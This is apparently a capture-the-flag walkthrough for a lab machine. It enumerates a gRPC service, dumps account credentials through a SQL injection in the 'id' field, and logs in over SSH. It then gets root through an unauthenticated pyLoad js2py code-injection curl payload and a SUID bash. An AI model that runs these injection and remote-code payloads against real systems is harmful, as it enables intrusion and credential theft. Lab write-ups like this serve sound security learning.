```
Host is up (0.053s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
```

## Recon


If we connect with nc we can see that response has problem with handshake and i investigate for it..
I also check with firefox and something in unicode appears as output.

Googling 50051 port i say sure it's a gRPC so we can dump the calls with `--describe` mode which show the usage of single class of REMOTE PROCEDURE CALL.

in Github there's basically 3 cool clients that help for the job! 
 
1) [grpc-curl]("https://github.com/xoofx/grpc-curl")
2) [grpcurl]("https://github.com/fullstorydev/grpcurl")
3) [grpcui]("https://github.com/fullstorydev/grpcui") The UI interface client edition :D



### The nice function

```
grpc-curl http://10.129.93.207:50051  --describe SimpleApp                                                                                                                           1 ⨯
// SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}

```

Nice so we can basically Login // Register // and to get //getInfo


```
grpcurl -plaintext -d '{"username":"code","password":"code"}' 10.129.93.207:50051 SimpleApp.RegisterUser
```

response:

```json
{
  "message": "Account created for user code!"
}
```

Now we can login with LoginUser function .. what is interesting here and that we have a responde with an id=rand_int e un token .




```http
POST /invoke/SimpleApp.LoginUser HTTP/1.1
Host: 127.0.0.1:38235
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:38235/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://127.0.0.1:38235
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[],"data":[{"username":"code","password":"code"}]}
```

response:

```html
HTTP/1.1 200 OK
Content-Type: application/json
Date: Tue, 23 May 2023 14:16:10 GMT
Content-Length: 586
Connection: close

{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "Your id is 740."
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": [
    {
      "name": "token",
      "value": "b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTEyNH0.jZ1skXLcxEXP5oZhYLHGBl7T3OwFsrVBm2IHdvU_igw'"
    }
  ]
}

```

so now we can call getInfo with the provided id and token header



### Q&A 

id = is vulnerbale to sql injection!?? or is it a strange deserialization? 



let's try with sql injection! 


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 223
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 Union select sqlite_version();"}]}
```

it works so we know that we are talking with sqlite v 3.31.1


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 273
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 union SELECT group_concat(username || \",\" || password || \":\") from accounts;"}]}
```



response


```
{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "admin,admin:,sau,HereIsYourPassWord1431:"
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": []
}
```


## SSH

SSH works with sau : pass


## Privesc 


Found a service in 8000 port hosted by python engine:



so I decided to chisel and try to understand better what's the mechanism of that thing!


with the BIG help of nmap found the version and the possible flows that can lead of some critical stuff.

```
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
|_http-server-header: Cheroot/8.6.0
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD



```


According with this https://vulners.com/huntr/3FD606F7-83E1-4265-B083-2E1889A05E65 we can attack this service unauthenticated. we can inject arbitrary code abusing `js2py` funtionality due the lack of CSRF protection, a victim can be tricked to execute arbitrary python code.


so we can try to import a payload `pyimport os;os.system("touch /tmp/nice_job");f=function f2(){};;&package=xxx&crypted=AAAA&&passwords=aaaa'`

```
curl -X POST 127.0.0.1:8000/flash/addcrypted2 -d 'jk=pyimport%20os;os.system(%22touch%20/tmp/nice_job%22);f=function%20f2()%7B%7D;&package=xxx&crypted=AAAA&&passwords=aaaa'`
```



the nicest thing is to convert bash  in a suid so and boom we are root! 


`/bin/bash -p`